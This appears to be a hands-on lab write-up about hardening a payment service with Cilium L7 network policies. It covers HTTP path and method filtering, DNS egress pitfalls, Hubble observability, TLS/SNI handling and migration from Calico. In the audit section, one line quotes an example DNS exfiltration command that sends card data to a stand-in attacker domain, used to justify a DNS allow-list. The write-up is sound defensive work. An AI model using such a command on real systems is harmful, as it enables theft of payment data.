


# Cilium L7 Security Architecture, Troubleshooting, and Engineering Decision Process

Phase 38 (OpenShift) closed the roadmap's supplementary section. This phase took a **different format**: not a ready-made roadmap page, but the process of solving a **real enterprise scenario** (payment service security) from scratch — a shift from concept-learning to direct, scenario-based application engineering.

**Every YAML and script in this document is a real, runnable file — not embedded in markdown:**

- [`manifests/lab-setup.yaml`](./manifests/lab-setup.yaml) — test environment (namespace, pods, Service)
- [`manifests/payment-api-l7-policy.yaml`](./manifests/payment-api-l7-policy.yaml) — the production-ready, verified policy
- [`manifests/payment-api-l7-policy-dns-hardened.yaml`](./manifests/payment-api-l7-policy-dns-hardened.yaml) — advanced version hardened against DNS exfiltration
- [`scripts/test-l7-policy.sh`](./scripts/test-l7-policy.sh) — verification tests
- [`scripts/setup-hubble.sh`](./scripts/setup-hubble.sh) — observability setup

---

## 1. Environment and Objective

- **OS:** Rocky Linux 9 (Vagrant VM)
- **Cluster:** Single-node Kubernetes control plane (`rocky9.localdomain`)
- **CNI:** Cilium v1.20.0 (rebuilt from scratch, replacing Calico)
- **Triggering scenario:** _"Meet an L7 (HTTP path/method) security filtering requirement that Calico can't satisfy, and verify all behavior before going to prod next week."_

Two real problems surfaced while migrating the cluster from Calico to Cilium, with their root cause analyses:

**Problem 1 — Cilium Operator stuck "Pending."** Cilium defaults to `replicas: 2` + `podAntiAffinity` for HA; in a single-node environment there was nowhere to schedule the second replica. Fixed with `kubectl scale deployment cilium-operator -n kube-system --replicas=1` (note: must be reverted to `2` in a multi-node prod cluster).

**Problem 2 — `cilium connectivity test` timed out.** Two causes stacked up: (a) the node's `control-plane:NoSchedule` taint blocked test pod scheduling — resolved with `kubectl taint nodes --all node-role.kubernetes.io/control-plane-` (the exact same mechanism covered in Phase 32/33's taint work); (b) image pull time over the Vagrant NAT network exceeded the CLI's default timeout. Once the taint was removed and namespaces cleaned up, the test passed **79/79**.

---

## 2. Calico vs. Cilium — Comparative Analysis

| Criterion           | Calico (OSS)                                                     | Cilium                                                               |
| ------------------- | ---------------------------------------------------------------- | -------------------------------------------------------------------- |
| Operating principle | `iptables`, IPVS, BGP                                            | eBPF embedded in the Linux kernel                                    |
| Inspection layer    | L3/L4 (IP, port)                                                 | L3/L4 + native L7 (HTTP path, method, header)                        |
| HTTP awareness      | None — `GET /public` and `DELETE /admin` both look like "TCP 80" | Yes — eBPF captures the packet, routes to Envoy if an L7 rule exists |
| Performance scaling | `iptables` chain grows with rule count, O(N)                     | eBPF hash map, O(1) regardless of rule count                         |
| FQDN support        | Fragile, requires external mechanisms                            | Listens to DNS traffic in-kernel, dynamically adds returned IPs      |
| Kernel dependency   | Works fine on older kernels (3.x/4.x)                            | Requires a modern kernel (5.4+)                                      |

**Cross-reference:** The `iptables` O(N) limitation proven here was something touched on conceptually in Phase 28 while examining kube-proxy's iptables mode — here it became concrete as a real architectural decision rationale.

---

## 3. Scenario: Payment Service (`payment-api`)

**Requirements:**

1. Only requests from the `frontend` pod are accepted
2. Only `POST /api/v1/charge` — all other methods/paths are blocked
3. `payment-api` is closed to the internet, can only reach an allowed external address (bank/GitHub API)

### 3.1. Traffic Direction — Ingress vs Egress

**Ingress** is traffic coming into `payment-api` from outside (`frontend` → `payment-api`). **Egress** is traffic `payment-api` itself initiates outward (`payment-api` → bank). Key point: the bank's `HTTP 200` response doesn't need a separate Ingress rule — the kernel-level `conntrack` automatically recognizes the return packet of an outgoing request (stateful).

### 3.2. Three Real Traps

**Trap 1 — The Kubelet Health Check Crisis.** With only a `frontend` → `POST /api/v1/charge` rule written, the node's own `GET /healthz` health check request also gets rejected by Envoy with `403`. Kubelet assumes the pod is dead and puts it into a `CrashLoopBackOff` loop. **Fix:** explicitly allow the node's own health check traffic with `fromEntities: host` (see the 2nd ingress rule in `payment-api-l7-policy.yaml`).

**Trap 2 — Forgetting DNS Egress.** The moment an egress rule is defined, default-deny kicks in for that pod. If only the external target (`toFQDNs`) is allowed **without allowing CoreDNS (port 53)**, the pod can never resolve the target's IP, and fails with `Could not resolve host`. **Fix:** always explicitly allow `kube-dns` in egress rules (see the 1st egress rule in the file) — this is proof that the **exact same trap** found in Phase 37's Calico Network Policy testing applies equally to Cilium.

**Trap 3 — "I Wrote the Rule But It's Not Working" Diagnosis.** When a policy doesn't behave as expected, check in order: (1) `kubectl get ciliumendpoints -n <ns>` to confirm labels actually match (`Enforcing: Ingress=true`); (2) `cilium-dbg endpoint get <id>` to see whether the packet actually reached Envoy, and how many packets were `allowed`/`dropped`.

### 3.3. Real Terminal Evidence — The Heredoc Trap (A Recurring Pattern)

When the policy was first applied, pasting a **multi-line heredoc** (`cat <<EOF | kubectl apply -f -`) into the terminal caused the DNS/FQDN blocks to get **truncated** — `kubectl apply` said "created" but the actual YAML was incomplete, and even `api.github.com` timed out (`000`). Checking with `kubectl get cnp ... -o yaml` revealed the missing content; fixed with `kubectl delete` followed by a clean re-`apply`.

**This is a repeat — on a different day, with a different tool, but the same class of error — of the heredoc corruption experienced in Phase 36 (Kubectl Shortcuts).** Lesson: when pasting large YAML via heredoc, `kubectl apply` saying "created/unchanged" is **not proof the content actually went through** — always verify the real content with `-o yaml`.

### 3.4. Test Results (Real, Reproducible via `./scripts/test-l7-policy.sh`)

| Test | Request                                      | Result                               |
| ---- | -------------------------------------------- | ------------------------------------ |
| 1    | `POST /api/v1/charge` (from frontend)        | `200` ✅                             |
| 2    | `GET /api/v1/charge` (wrong method)          | `403` ✅ (blocked at Envoy L7)       |
| 3    | `POST /admin` (forbidden path)               | `403` ✅                             |
| 4    | `payment-api` → `api.github.com`             | `200` ✅ (SNI verified)              |
| 5    | `payment-api` → `www.google.com` (forbidden) | `000` timeout ✅ (packet never left) |

---

## 4. Second Round of Crises — Audit and Observability

The scenario continued: with the L7 policy active, two new demands came in from a security auditor and the operations team.

### 4.1. DNS Exfiltration Risk

**Auditor's report:** _"We gave payment-api DNS permission (port 53), but there's no limit on what's queried. If an attacker breaches it, they could exfiltrate card data inside a DNS query with `nslookup cardnumber-4111222233334444.attacker.com`."_

Calico can't provide protection at this level — it only asks "is port 53 open," it can't look at the **name** being queried. With Cilium's L7 DNS support, `matchPattern` can restrict **which domains can be queried**:

```yaml
rules:
  dns:
    - matchPattern: "*.cluster.local" # in-cluster services
    - matchPattern: "*.bank.com" # only the bank's domain family
```

This is fully implemented in `payment-api-l7-policy-dns-hardened.yaml` — a domain not on the list, like `attacker.com`, is **dropped in-kernel before it ever reaches CoreDNS.**

### 4.2. Ending the Blind Flight — Hubble

**NOC team complaint:** _"We're getting 403s but can't see why — wrong path, missing header, or did the health check break?"_

Classic `tcpdump` falls short in Kubernetes because (1) IPs are ephemeral, may belong to a different pod 5 minutes later, (2) whether it was rejected at L7 vs L3/4 isn't visible, (3) if traffic is encrypted, the content can't be read at all.

**Hubble**, Cilium's identity-aware observability layer, speaks in terms of Kubernetes identities like `default/frontend` instead of IPs. Set up via `./scripts/setup-hubble.sh` and verified with a real test:

- The web UI (`cilium hubble ui` + port-forward) displayed a **real, live** traffic map
- `frontend → payment-api`: `POST /api/v1/charge` → **green (forwarded)**, `DELETE` → **red (403 dropped)**
- `payment-api → api.github.com`: **green**; `payment-api → www.google.com`: **red (eBPF drop)**

This wasn't just conceptual — it was **verified live with a real screenshot:**



_Graph view — `frontend → payment-api` and `payment-api → api.github.com` connections shown in green (forwarded), `payment-api → www.google.com` shown in red (dropped)._



_Table view — the `L7 info` column shows `POST /api/v1/charge` requests marked `forwarded` and `DELETE /api/v1/charge` requests marked `dropped`, with real, second-by-second timestamps._

---

## 5. Encrypted Traffic — TLS/SNI Architecture

**Final question:** _"If traffic is HTTPS, how will Envoy read the `POST /api/v1/charge` distinction inside an encrypted packet?"_

Two different cases apply:

**Internal traffic (`frontend` → `payment-api`, both sides controlled internally):** An SSL certificate is given to Envoy — **TLS Termination.** Envoy decrypts the traffic with its own key, reads the HTTP content (path/method), checks the rule, then forwards to `payment-api`.

**External traffic (`payment-api` → bank, no access to the bank's key):** Envoy **cannot open the packet's contents.** But in the first "hello" packet of a TLS connection, the destination domain name is still sent unencrypted — this is called **SNI (Server Name Indication).** Cilium reads **this SNI label**, not the content: if the label shows an allowed domain it lets it through, otherwise it drops it **before it ever reaches the internet.**

This distinction fully explains why the `payment-api → www.google.com` test returned **`000` (timeout)** — the packet was rejected before it even left, based on the **SNI label of the outgoing request**, not any response from the bank.

---

## 6. Live Migration Strategy — Blue/Green Migration

**CTO's question:** _"How do you migrate a 300-pod cluster generating millions in daily revenue from Calico to Cilium with zero downtime?"_

**Why in-place migration doesn't work:** Two CNIs can't run on the same server at once (both try to manage the same `veth` pairs and IP pools, causing kernel conflicts). Once the old CNI is removed, pod IPs it assigned aren't recognized by the new CNI — pods become "orphaned."

**Correct strategy — Node Pool / Blue-Green:**

1. Without touching existing Calico nodes, new nodes (or a subset of existing ones) are set aside for Cilium
2. During a maintenance window, node by node: `kubectl cordon node-1` (stop accepting new pods) → `kubectl drain node-1 --ignore-daemonsets --delete-emptydir-data` (gracefully evict pods) — Kubernetes opens the new pod on a clean Cilium node before killing the old one
3. Or, service by service: `kubectl rollout restart deployment/payment-api` — Kubernetes won't kill the old pod until the new (Cilium-IP) pod is ready

This is a migration customers don't feel — evaluated as a real engineering decision, given that an "in-place delete-and-reinstall" approach carries a 3-10 minute network black hole and irreversible risk.

---

## 7. Limits of the Architecture — Race Conditions

A problem the network layer **cannot solve** was also honestly addressed: a user trying to use a single-use coupon twice by firing two parallel `POST /api/v1/charge` requests simultaneously (TOCTOU / Race Condition).

Cilium sees both requests as legitimate `POST`s — it **holds no state**, it has no way to know whether the coupon was already used. This is the **application/data layer's** responsibility, not the network's:

- **Idempotency Key** — requiring a unique operation ID in the request header
- **Distributed locking** — an atomic `SET ... NX` via Redis
- **Database locking** — `SELECT ... FOR UPDATE`

---

## 📊 Summary

| Topic                     | What Was Proven                                                                              |
| ------------------------- | -------------------------------------------------------------------------------------------- |
| Cilium install            | Operator HA/anti-affinity and control-plane taint traps diagnosed and fixed with real errors |
| L7 Ingress                | HTTP method/path filtering proven with real tests (200/403)                                  |
| Kubelet health check trap | Proved CrashLoopBackOff occurs without `fromEntities: host`, and the fix                     |
| DNS egress trap           | Proved missing DNS permission alongside an egress rule times out everything                  |
| DNS Exfiltration          | Architectural fix via `matchPattern` for domain-scoped DNS restriction                       |
| Hubble                    | Identity-aware, real-time traffic observation verified with a live screenshot                |
| TLS/SNI                   | Proved L7 filtering works differently for internal vs external encrypted traffic             |
| Migration                 | Zero-downtime migration plan via Blue/Green node pool strategy                               |
| Race Condition            | Network layer's limits honestly acknowledged, deferred to upper-layer solutions              |

---

ℹ️ _This scenario was handled outside the roadmap, in an "application engineering" format — not handing over ready-made YAML to be tested, but documenting the process of hitting real errors (heredoc truncation, operator pending, DNS trap) and resolving them by root cause. All YAML and script files accompany this document as separate, runnable artifacts._
